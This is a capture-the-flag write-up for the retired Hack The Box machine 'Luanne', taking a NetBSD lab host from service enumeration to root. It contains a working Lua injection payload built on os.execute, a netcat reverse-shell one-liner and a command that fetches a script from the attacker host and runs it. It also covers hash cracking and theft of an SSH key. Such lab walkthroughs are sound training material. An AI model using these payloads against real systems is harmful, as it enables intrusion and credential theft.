



# Luanne

This is the write-up for the box Luanne that got retired at the 27th March 2021.
My IP address was 10.10.14.6 while I did this.

Let's put this in our hosts file:
```markdown
10.10.10.218    luanne.htb
```

## Enumeration

Starting with a Nmap scan:

```
nmap -sC -sV -o nmap/luanne.nmap 10.10.10.218
```

```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.0 (NetBSD 20190418-hpn13v14-lpk; protocol 2.0)
| ssh-hostkey:
|   3072 20:97:7f:6c:4a:6e:5d:20:cf:fd:a3:aa:a9:0d:37:db (RSA)
|   521 35:c3:29:e1:87:70:6d:73:74:b2:a9:a2:04:a9:66:69 (ECDSA)
|_  256 b3:bd:31:6d:cc:22:6b:18:ed:27:66:b4:a7:2a:e4:a5 (ED25519)
80/tcp   open  http    nginx 1.19.0
|_http-server-header: nginx/1.19.0
|_http-title: 401 Unauthorized
| http-robots.txt: 1 disallowed entry
|_/weather
| http-auth:
| HTTP/1.1 401 Unauthorized\x0D
|_  Basic realm=.
9001/tcp open  http    Medusa httpd 1.12 (Supervisor process manager)
|_http-server-header: Medusa/1.12
|_http-title: Error response
| http-auth:
| HTTP/1.1 401 Unauthorized\x0D
|_  Basic realm=default
Service Info: OS: NetBSD; CPE: cpe:/o:netbsd:netbsd
```

## Checking HTTP (Port 80)

The web page on port 80 asks for basic authorization and without credentials, it forwards to an HTTP status code _401 Unauthorized_:
```
401 Unauthorized
/index.html:

No authorization

127.0.0.1:3000
```

The web server seems to forward requests to an internal service on port 3000.

When requesting _index.html_, it shows the default _"Welcome to nginx"_ page, which means that only specific paths need authorization.
There is a _robots.txt_ file, that has an entry for the path _/weather_ which responds with the HTTP status code _404 Not Found_:
```
User-agent: *
Disallow: /weather  #returning 404 but still harvesting cities
```

## Checking HTTP (Port 9001)

The web page on port 9001 asks for basic authorization and without credentials, it forwards to an HTTP status code _401 Unauthorized_:
```
Error response

Error code 401.

Message: Unauthorized.
```

The Server response header says that this is a **Medusa/1.12** web server.
By researching [Medusa Supervisor Process Manager](https://github.com/Supervisor/supervisor), it seems to be a system that allows to control processes on UNIX-like operating systems.

The [documentation on page 14](https://readthedocs.org/projects/supervisor/downloads/pdf/latest/) has some default credentials:
```
username = user
password = 123
```

These credentials work and access to the **Supervisor** service is granted:



The _processes_ show that the service on port 3000 runs _weather.lua_ on localhost:
```
_httpd      376  0.0  0.0  34956  1984 ?     Is   12:01PM 0:00.01 /usr/libexec/httpd -u -X -s -i 127.0.0.1 -I 3000 -L weather /usr/local/webapi/weather.lua -U _httpd -b /var/www
```

We now know that _/weather_ on port 3000 is requested through port 80 and that it is written in the scripting language **Lua**.
Lets fuzz this application, to gather information or execute code.

### Exploiting Port 3000

Lets search for hidden directories on _/weather_ with **FFuF**:
```
ffuf -u http://10.10.10.218/weather/FUZZ -w /usr/share/seclists/Discovery/Web-Content/raft-small-words.txt
```

It finds the directory _forecast_ which is an API:



The API expects the parameter _city_ and can _list_ all cities or show information based on a specified city:
```
GET /weather/forecast?city=list HTTP/1.1
Host: 10.10.10.218
```
```
GET /weather/forecast?city=London
```

When sending all special characters as a value to the parameter _list_, the _single quote symbol (')_ responds with a different size:
```
ffuf -u http://10.10.10.218/weather/forecast?city=FUZZ -w /usr/share/seclists/Fuzzing/special-chars.txt -mc 200,500 -fw 5
```

The single quote character makes the application error:
```
curl http://10.10.10.218/weather/forecast?city=\'

<br>Lua error: /usr/local/webapi/weather.lua:49: attempt to call a nil value
```

Fuzzing again for special characters after the single quote:
```
ffuf -u http://10.10.10.218/weather/forecast?city=\'FUZZ-- -w /usr/share/seclists/Fuzzing/special-chars.txt -mc 200,500 -fw 9
```

The _closed bracket symbol_ between the _single quote_ and the _double hyphen (comment in Lua)_ responds with a different size.
These characters probably end the real value and after that the _os.execute_ in **Lua** can be used to execute commands:
```
GET /weather/forecast?city=');os.execute("id")--
```
```
"error": "unknown city: uid=24(_httpd) gid=24(_httpd) groups=24(_httpd)
```

Creating a shell script _(shell.sh)_:
```
rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.6 9001 >/tmp/f
```

Downloading and executing _shell.sh_:
```
GET /weather/forecast?city=');os.execute("curl+10.10.14.6:8000/shell.sh+|+sh")--
```

After sending the request, the file gets executed and the listener on my IP and port 9001 starts a reverse shell as the user _httpd_.

## Privilege Escalation

In the directory _/var/www_ is a hidden _.htpasswd_ file with credentials:
```
webapi_user:$1$vVoNCsOl$lMtBS6GL2upDbR4Owhzyc0
```

The password is hashed with **md5crypt**, so lets try to crack it with **Hashcat**:
```
hashcat -m 500 webapi_user.hash /usr/share/wordlists/rockyou.txt --user
```

After a while it will crack the hash:
> iamthebest

These credentials work on the service on HTTP port 80, which asks for authorization but then forwards to examples of the API that we already exploited:



Checking the open ports:
```
netstat -an | grep LIST

127.0.0.1.3000
127.0.0.1.3001
```

Port 3000 is known to us, but port 3001 is running another service:
```
ps -auxw | grep 3001

r.michaels   185  0.0  0.0  34992  1960 ?     Is   12:01PM 0:00.00 /usr/libexec/httpd -u -X -s -i 127.0.0.1 -I 3001 -L weather /home
```

Unfortunately the shell cuts of parts of the output, but the _"Tail -f Stdout"_ feature in **Supervisor**, shows the full command:
```
/usr/libexec/httpd -u -X -s -i 127.0.0.1 -I 3001 -L weather /home/r.michaels/devel/webapi/weather.lua -P /var/run/httpd_devel.pid -U r.michaels -b /home/r.michaels/devel/www
```

The user _r.micheals_ runs this and according to the [NetBSD httpd documentation](https://man.netbsd.org/NetBSD-6.0.1/httpd.8), the `-u` parameter enables access to the user directory:
```
curl localhost:3001/~r.michaels/

<body><h1>401 Unauthorized</h1>
```

Authenticating to the service with the _webapi_user_:
```
curl --user webapi_user:iamthebest localhost:3001/~r.michaels/

Index of ~r.michaels

"../" > Parent Directory
"id_rsa" > id_rsa
```

Getting the private SSH key _id_rsa_:
```
curl --user webapi_user:iamthebest localhost:3001/~r.michaels/id_rsa
```

Using the SSH key to login into the box as _r.micheals_:
```
ssh -i rmichaels.key r.michaels@10.10.10.218
```

### Privilege Escalation to root

In the home directory _/home/r.michaels/_ is a directory _.gnupg_ with two **GPG keys**:
```
ls .gnupg

pubring.gpg
secring.gpg
```

In the home directory _/home/r.michaels/_ is a directory _backups_ with an encrypted file called _devel_backup-2020-09-16.tar.gz.enc_.
This file can probably be decrypted with these keys:
```
netpgp --decrypt backups/devel_backup-2020-09-16.tar.gz.enc --output /tmp/backups.tar.gz
```

Decompressing the **Tar archive**:
```
tar -zxvf /tmp/backups.tar.gz
```

It contains the same files for the web server as before, but the _.htpasswd_ has a different hash than before:
```
webapi_user:$1$6xc7I/LW$WuSQCS6n3yXsjPMSmwHDu.
```

Trying to crack it with **Hashcat**:
```
hashcat -m 500 webapi_user.hash.2 /usr/share/wordlists/rockyou.txt --user
```

After a while it will crack the hash:
> littlebear

Testing this password for root with `doas`:
```
luanne$ doas sh    
Password:

# whoami
root
```

It works and starts a shell as root!
